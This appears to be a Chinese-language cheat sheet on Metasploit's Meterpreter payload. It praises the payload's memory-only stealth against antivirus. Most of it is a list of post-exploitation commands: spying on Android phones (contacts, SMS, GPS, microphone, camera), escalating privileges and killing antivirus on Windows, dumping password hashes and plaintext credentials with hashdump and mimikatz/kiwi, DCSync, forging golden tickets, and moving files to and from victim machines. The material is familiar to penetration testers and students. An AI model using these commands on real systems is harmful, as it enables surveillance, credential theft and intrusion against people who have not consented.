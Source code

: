 # 一、 Meterpreter是什么

Meterpreter是Metasploit框架中的一个利器，作为漏洞溢出后的攻击载荷使用，攻击载荷在触发漏洞后会返回一个由我们控制的通道，可用于远程执行命令!
Metasploit提供了各个主流平台的Meterpreter版本，包括Windows、Linux，同时支持x86、x64平台，另外，Meterpreter还提供了基于PHP和Java语言的实现。Meterpreter的工作模式是纯内存的，好处是启动隐藏，很难被杀毒软件监测到。不需要访问目标主机磁盘，所以也没什么入侵的痕迹。除上述外，Meterpreter还支持Ruby脚本形式的扩展。所以Ruby语言还很有必要了解下。

# 二、Meterpreter中常用的反弹类型

1.reverse_tcp
这是一个基于TCP的反向链接反弹shell, 使用起来很稳定

# 三、Meterpreter的常用命令

## 1.基本命令

help# 查看Meterpreter帮助

background#返回，把meterpreter后台挂起
bgkill# 杀死一个 meterpreter 脚本
bglist#提供所有正在运行的后台脚本的列表
bgrun#作为一个后台线程运行脚本
channel#显示活动频道
sessions -i number # 与会话进行交互，number表示第n个session,使用session -i 连接到指定序号的meterpreter会话已继续利用
sesssions -k  number #与会话进行交互
close# 关闭通道
exit# 终止 meterpreter 会话
quit# 终止 meterpreter 会话
interact id #切换进一个信道
 run#执行一个已有的模块，这里要说的是输入run后按两下tab，会列出所有的已有的脚本，常用的有autoroute,hashdump,arp_scanner,multi_meter_inject等
 irb# 进入 Ruby 脚本模式
 read# 从通道读取数据write# 将数据写入到一个通道
 run和bgrun# 前台和后台执行以后它选定的 meterpreter 脚本
use# 加载 meterpreter 的扩展
load/use#加载模块
 Resource#执行一个已有的rc脚本

## 2  常用命令

### 2.1 针对安卓手机的一些命令

获取手机通讯录： dump_contacts

获取短信记录：dump_sms

控制实验手机发短信：send_sms -d 15330252525 -t
"hello"

获取实验手机GPS定位信息：geolocate

获取实验手机Wi-Fi定位信息：wlan_geolocate

控制实验手机录音：record_mic
-d  5

获取实验手机相机设备：webcam_list

控制实验手机拍照 ：webcam_snap

直播实验手机摄像头：webcam_stream

### 2.2 针对Windows的一些命令

查看进程：ps

查看当前进程号：getpid

查看系统信息：sysinfo

查看目标机是否为虚拟机：run
post/windows/gather/checkvm

查看完整网络设置：route

查看当前权限：getuid

自动提权：getsystem

关闭杀毒软件：run post/windows/manage/killav

启动远程桌面协议：run post/windows/manage/enable_rdp

列举当前登录的用户：run post/windows/gather/enum_logged_on_users

查看当前应用程序：run post/windows/gather/enum_applications

抓取目标机的屏幕截图：load espia ； screengrab

获取相机设备：webcam_list

控制拍照 ：webcam_snap

直播摄像头：webcam_stream

控制录音：record_mic

查看当前处于目标机的那个目录：pwd

查看当前目录：getlwd

导出当前用户密码哈希  run hashdump

用户名：SID：LM哈希：NTLM哈希:::

也可以使用下面这个命令导出 权限更高   run windows/gather/smart_hashdump

抓取自动登录的用户名和密码  run windows/gather/credentials/windows_autologin

直接获取明文密码（注意这个功能需要获取系统权限  获取系统权限需要输入getsystem）

首选终端输入  load kiwi    加载kiwi

creds_all：列举所有凭据
creds_kerberos：列举所有kerberos凭据
creds_msv：列举所有msv凭据
creds_ssp：列举所有ssp凭据
creds_tspkg：列举所有tspkg凭据
creds_wdigest：列举所有wdigest凭据
dcsync：通过DCSync检索用户帐户信息
dcsync_ntlm：通过DCSync检索用户帐户NTLM散列、SID和RID
golden_ticket_create：创建黄金票据
kerberos_ticket_list：列举kerberos票据
kerberos_ticket_purge：清除kerberos票据
kerberos_ticket_use：使用kerberos票据
kiwi_cmd：执行mimikatz的命令，后面接mimikatz.exe的命令
lsa_dump_sam：dump出lsa的SAM
lsa_dump_secrets：dump出lsa的密文
password_change：修改密码
wifi_list：列出当前用户的wifi配置文件
wifi_list_shared：列出共享wifi配置文件/编码

## 3.文件系统命令

cat c:\boot.ini#查看文件内容,文件必须存在
del c:\boot.ini #删除指定的文件
upload /root/Desktop/netcat.exe c:\ # 上传文件到目标机主上，如upload  setup.exe C:\\windows\\system32
download nimeia.txt /root/Desktop/   # 下载文件到本机上如：download C:\\boot.ini /root/或者download C:\\"ProgramFiles"\\Tencent\\QQ\\Users\\295******125\\Msg2.0.db /root/
edit c:\boot.ini  # 编辑文件
getlwd#打印本地目录
getwd#打印工作目录
lcd#更改本地目录
ls#列出在当前目录中的文件列表
lpwd#打印本地目录
pwd#输出工作目录
cd c:\\ #进入目录文件下
rm file #删除文件
mkdir dier #在受害者系统上的创建目录
rmdir#受害者系统上删除目录
dir#列出目标主机的文件和文件夹信息
mv#修改目标主机上的文件名
search -d d:\\www -f web.config #search 文件，如search  -d c:\\  -f*.doc
meterpreter > search -f autoexec.bat  #搜索文件
meterpreter > search -f sea*.bat c:\\xamp\\
enumdesktops     #用户登录数